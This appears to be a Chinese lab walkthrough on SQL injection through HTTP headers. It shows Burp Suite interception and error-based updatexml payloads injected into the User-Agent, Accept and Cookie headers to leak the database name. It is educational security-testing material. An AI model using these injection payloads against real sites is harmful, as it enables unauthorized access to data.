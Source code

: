 通过这些信息我们可以猜测，

- 这个后端应该对`HTTP header`里面的数据进行了获取，
- 应该也进行了相关数据库的操作

Burpsuite抓包进行测试

- 测试发现User-Agent
- Accept
- Cookie处存在SQL注入

### 抓包

- 点击提交后
- 进行抓包
- 然后点击发送两次来到下面界面
- 然后发送到Repeater上进行测试

![image-20220206230342708](https://gitee.com/xxb667/img/raw/master/img/image-20220206230342708.png)



![image-20220206230546962](https://gitee.com/xxb667/img/raw/master/img/image-20220206230546962.png)

### User-Agent注入

- 修改User-Agent实现注入，
- 这里我用注释符一直报错，
- 所以用`and '`进行闭合

```sql
1' and updatexml(1, concat(0x7e, database()), 1) and '
```

![image-20220206230655801](https://gitee.com/xxb667/img/raw/master/img/image-20220206230655801.png)

### Accept注入

**修改Accept实现注入**

```sql
1' and updatexml(1, concat(0x7e, database()), 1) and '
```

![image-20220206230836282](https://gitee.com/xxb667/img/raw/master/img/image-20220206230836282.png)

### Cookie注入

**修改Cookie实现注入**

```sql
admin' and updatexml(1, concat(0x7e, database()), 1) #
```

![image-20220206230919418](https://gitee.com/xxb667/img/raw/master/img/image-20220206230919418.png)
